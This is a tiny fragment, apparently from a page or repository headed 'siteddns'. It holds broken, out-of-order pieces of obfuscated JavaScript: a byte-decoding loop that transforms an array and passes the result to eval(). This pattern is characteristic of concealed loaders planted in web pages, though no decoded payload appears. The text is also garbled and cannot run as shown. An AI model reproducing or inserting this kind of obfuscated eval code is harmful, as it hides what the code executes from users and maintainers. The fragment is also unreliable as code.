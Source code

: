  # siteddns
51)break;sb[ub]=(((sb[ub]-162)&0xff)+sb[52])&0xff;sb[ub]=(sb[ub]+148)&0xff;ub++;}";eval(ub);ub="ub=50;do{if(ub
